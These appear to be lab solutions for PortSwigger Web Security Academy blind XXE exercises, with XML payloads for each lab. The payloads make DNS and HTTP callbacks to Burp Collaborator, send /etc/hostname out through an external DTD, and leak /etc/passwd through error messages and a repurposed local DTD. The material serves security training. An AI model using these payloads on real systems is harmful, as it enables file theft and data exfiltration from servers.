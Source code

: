 # Finding and exploiting blind XXE vulnerabilities

## Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://4pu94og180nmlpwba4ryynwgk7qzeo.burpcollaborator.net"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://dxey5zylgsj6urlre84bcz7et5zvnk.burpcollaborator.net"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

Exploit:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://h4mpvvu7dfq98uosfoe81bwag1mtai.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate;
```

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac2a1fd71e1c41bbc0373b1201d50007.web-security-academy.net/exploit.dtd"> %xxe; ]>
```

## Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Exploit:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Solution:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac1e1f871ef12ff8c0468369018e004d.web-security-academy.net/exploit.dtd"> %xxe; ]>
```

## Exploiting XXE to retrieve data by repurposing a local DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

Solution:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM
&#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```